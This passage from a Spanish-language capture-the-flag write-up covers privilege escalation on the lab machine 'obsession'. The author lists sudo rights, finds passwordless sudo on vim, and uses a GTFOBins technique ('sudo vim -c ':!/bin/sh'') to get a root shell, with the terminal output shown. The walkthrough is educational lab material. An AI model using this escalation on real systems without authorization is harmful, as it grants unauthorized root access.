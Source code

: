 ![image](https://github.com/user-attachments/assets/f30d37cb-ca68-41c2-abcd-93beec30b5a2)




Ahora para continuar, deberemos ver los permisos que tiene el usuario y si es posible elevar privilegios.

```bash

'Con el siguiente comando podemos ver si el usuario en el que estamos, tiene algún tipo de permiso.'

russoski@f97682611d3e:~/Documentos$ sudo -l
Matching Defaults entries for russoski on f97682611d3e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on f97682611d3e:
    (root) NOPASSWD: /usr/bin/vim
russoski@f97682611d3e:~/Documentos$ 

```

Si nos fijamos en el resultado, podemos ver que tiene permisos con la herramienta vim. Tras saber esto, podemos consultar en la pagína GTFObins para ver qué tipo  de vulnerabilidades existen para poder elevar permisos.


![image](https://github.com/user-attachments/assets/16557a55-297a-45ff-9d57-b2bbe93fbf67)


En este apartado, deberemos entrar en el apartado de "sudo" y comprobar qué podemos hacer. Si leemos los diferentes apartados, podemos ver que hay un comando para ingresar a una shell interactiva dentro de vim.

![image](https://github.com/user-attachments/assets/407b58fd-0333-41f5-9c78-84eb574b268a)

Si utilizamos esto dentro del SSH, podremos ver que sí que podemos entrar como root.

```bash  
russoski@f97682611d3e:~/Documentos$ sudo vim -c ':!/bin/sh'

# whoami
root


```

Con esto se da por acabado la intrusión a la máquina obsession.








